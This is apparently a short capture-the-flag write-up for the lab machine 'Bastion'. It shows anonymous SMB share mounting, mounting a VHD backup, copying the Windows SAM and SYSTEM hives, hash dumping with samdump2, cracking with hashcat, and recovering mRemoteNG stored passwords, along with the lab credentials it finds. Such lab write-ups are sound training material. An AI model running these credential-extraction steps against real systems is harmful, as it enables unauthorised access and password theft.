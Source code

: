 # Bastion

Port scan shows 22, 139, 445 open. We find an unprotected share `/backups` which contains the backup archive of a Windows PC.

mount SMB share
```
sudo mount -t cifs //10.10.10.134/backup /mnt/vhd1 -o user=anonymous,password=anonymous
```

Mount the vhd file
```
sudo modprobe nbd
```

```
sudo qemu-nbd -r -c <new_device_name> <file>
```

```
mount -r <new_device_name> <mountpoint>
```

and then dump the SAM and SYSTEM files for cracking

```
cp c:\windows\system32\config\SAM .
cp c:\windows\system32\config\SYSTEM .
samdump2 SYSTEM SAM -o hashes
hashcat hashes /usr/share/wordlists/rockyou.txt
```

We now have user credentials

```
L4mpje
```

```
bureaulampje
```

In `%appdata%/mremoteng/confCons.xml` we find a few username/password combos

![[Pasted image 20220719184042.png]]

```
L4mpje
```



![[Pasted image 20220719184051.png]]

We used a tool from github to crack these hashes.

```
Administrator
```

```
thXLHM96BeKL0ER2
```

